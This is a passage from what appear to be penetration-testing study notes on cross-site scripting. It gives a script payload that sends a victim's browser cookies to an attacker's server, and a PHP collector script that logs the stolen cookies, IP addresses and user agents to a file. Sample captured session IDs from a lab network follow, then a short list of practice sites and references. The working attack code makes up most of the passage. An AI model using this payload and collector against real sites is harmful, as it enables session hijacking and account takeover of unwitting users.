 ```php
/*
PAYLOAD to be used : 

<script> var i = new Image(); i.src="http://<url_where_this_script_is_placed>/get-data.php?cookie="+escape(document.cookie)</script>
*/

<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_Server['HTTP_USER_AGENT'];

$fp = fopen('gathered_info.txt', 'a');

fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING'])." \n\n");
fclose($fp);
?>
```

<b>Strings(Cookie requests) Stored in `gathered_info.txt` File</b>

```
192.168.99.100  
cookie=PHPSESSID=3udrbq5j2km5spea10bu7lri07 

192.168.99.11  
cookie=PHPSESSID=il99fdtjli5mq8lvm7k6r07hd0 

192.168.99.100  
cookie=PHPSESSID=il99fdtjli5mq8lvm7k6r07hd0 

192.168.99.11  
cookie=PHPSESSID=dte29r9stjinkki7hlgt3iqe54 

192.168.99.11  
cookie=PHPSESSID=vkhfn0hno94cpg84m0elb7d1d2 
```

### <b>Other Resources</b>

```
Websites to practice XSS attacks:

[1] hack.me

Resources:

[1] The Web Application Hacker's Handbook
[2] OWASP - XSS
```

# <b><u>Null Session Attacks</b></u>
